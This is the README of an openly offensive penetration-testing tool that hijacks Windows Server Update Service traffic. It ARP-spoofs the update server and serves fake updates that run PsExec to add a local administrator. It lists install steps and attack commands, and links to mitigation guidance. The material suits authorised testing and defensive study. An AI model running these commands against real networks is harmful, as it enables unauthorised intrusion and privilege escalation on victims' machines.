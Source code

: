 ![Supported Python versions](https://img.shields.io/badge/python-3.10+-blue.svg) [![Twitter](https://img.shields.io/twitter/follow/al3x_n3ff?label=al3x_n3ff&style=social)](https://twitter.com/intent/follow?screen_name=al3x_n3ff)
# wsuks
_Weaponizing the WSUS Attack_

Gaining local administrative access on a Windows machine that is part of a domain is typically the initial step towards acquiring domain admin privileges during a penetration test. In order to exploit the WSUS attack automatically, this tool spoofs the IP address of the WSUS server within the network using ARP, and when the client requests Windows updates, it provides its own malicious updates instead.
By default, a Windows client requests updates every 24 hours. 

Both the executable file served (Default: PsExec64.exe) and the executed command can be changed as needed.

Prerequisits:
- The target Client must be on the local network
- The Windows Server Update Service (WSUS) must be configured using HTTP

Result:
- After successful execution the user provided will be added to the local admin group. If no user was specified a user with the format user[0-9]{5} (e.g. user12345) and a random password will be created

## Installation
Using pipx (recommended):
```
sudo apt install python3-pipx
pipx ensurepath
pipx install wsuks
sudo ln -s ~/.local/pipx/venvs/wsuks/bin/wsuks /usr/local/bin/wsuks
```

Using poetry:
```
sudo apt install python3-poetry
git clone https://github.com/NeffIsBack/wsuks
cd wsuks
sudo poetry install
```

## Usage
❗wsuks must be run as root❗

Using pipx you can simply run `sudo wsuks ...` anywhere on the system.\
Using poetry you must be in the wsuks folder and begin every command with `sudo poetry run wsuks ...`

#### Specify known WSUS-Server and create local admin user:
```
sudo wsuks -t 10.0.0.10 --WSUS-Server 10.0.0.20
```
#### Specify known WSUS-Server and add provided domain user to local admin group (Domain is required!):
```
sudo wsuks -t 10.0.0.10 --WSUS-Server 10.0.0.20 -u User -p Password -d Domain.local
```
#### Autodiscover the WSUS-Server by only specifying the domain user with the dc-ip:
```
sudo wsuks -t 10.0.0.10 -u User -p Password -d Domain.local --dc-ip 10.0.0.1
```

## About & Mitigation
In the [PyWSUS](https://github.com/GoSecure/pywsus) Repository from GoSecure you can find a great documentation how to you could detect and mitigate this attack.
They also wrote a great Guide demonstrating how this attack works in detail [here](https://www.gosecure.net/blog/2020/09/03/wsus-attacks-part-1-introducing-pywsus/).

This Tool is based on the following projects:
- https://github.com/GoSecure/pywsus
- https://github.com/GoSecure/wsuspect-proxy

